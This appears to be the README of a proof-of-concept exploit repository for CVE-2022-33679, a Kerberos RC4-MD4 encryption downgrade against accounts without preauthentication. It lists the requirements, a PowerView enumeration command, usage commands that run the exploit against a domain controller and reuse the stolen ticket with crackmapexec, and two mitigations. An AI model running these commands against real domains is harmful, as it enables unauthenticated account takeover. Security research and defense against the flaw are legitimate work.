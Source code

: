 # Kerberos Encryption Downgrade CVE-2022-33679

### CVE-2022-33679 performs an encryption downgrade attack by forcing the KDC to use the RC4-MD4 algorithm and then brute forcing the session key from the AS-REP using a known plaintext attack, Similar to AS-REP Roasting, it works against accounts that have preauthentication disabled and the attack is unauthenticated meaning we don’t need a client’s password..

## Requirements

 - Accounts with the attribute DONT_REQ_PREAUTH AKA ASREP Roastable account ( PowerView > Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose )

 - RC4-MD4 encryption algorithm enabled on the KDC

### Usage:

 - python CVE-2022-33679.py DOMAIN.LOCAL/User DC01.DOMAIN.LOCAL

 - export KRB5CCNAME=/home/project/User.ccache

 - crackmapexec smb DC01.DOMAIN.LOCAL -k --shares

## Mitigations

 - All accounts must have "Kerberos Pre-Authentication" enabled (Enabled by Default).

 - Disable RC4 cipher if possible.
